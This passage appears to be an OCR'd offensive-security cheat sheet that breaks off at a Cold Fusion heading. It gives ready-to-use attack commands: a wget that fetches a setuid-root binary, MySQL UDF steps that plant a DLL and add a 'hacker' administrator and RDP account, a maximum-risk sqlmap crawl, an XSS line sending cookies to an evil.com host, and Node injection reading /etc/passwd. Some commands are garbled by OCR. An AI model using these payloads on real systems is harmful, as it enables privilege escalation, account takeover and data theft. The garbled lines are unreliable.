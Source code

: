 Upload suid.c program

```
    wget http://ip:port/privex/mysql/suid-o /tmp/suid
    chownroot:root /tmp/suid
    chmod4777 /tmp/suid
```

Load MYSQLUDFfor Windows

```
    USE mysql;
    CREATE TABLE npn(line blob);
    INSERT INTO npn values(load_files('C://xampplite//webdav//lib_mysqludf_sys.dll'));
    SELECT * FROM mysql.npnINTO DUMPFILE'c://windows//system32//lib_mysqludf_sys_32.dll';
    CREATE FUNCTION sys_exec RETURNS integer SONAME'lib_mysqludf_sys_32.dll';
    SELECT sys_exec("net user hacker hacker1234!@#$ /add");
    SELECT sys_exec("net localgroupAdministrators hacker /add");
    s_exec('net localgroup"Remote Desktop Users" hacker /add');
```

#### SQLMap

Automated website crawl and test of SQLi

```
    python sqlmap.py -u http://example.com --forms --batch --crawl=10 --cookie=jsessionid=12345 --level=5 --risk=3
```

### XSS

Grab cookie

```
    document.write('<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />')
```

XSS via image tag

```
    <img src="x" onerror="alert('Suck it, Trebek!')" />
```

### Server-side Javascript Injection via Node or ElementJS

File system directory listing

```
    res.end(require('fs').readdirSync('.').toString())
```

File read

```
    res.end(require('fs').readFileSync('/etc/passwd').toString())
```

### Cold Fusion
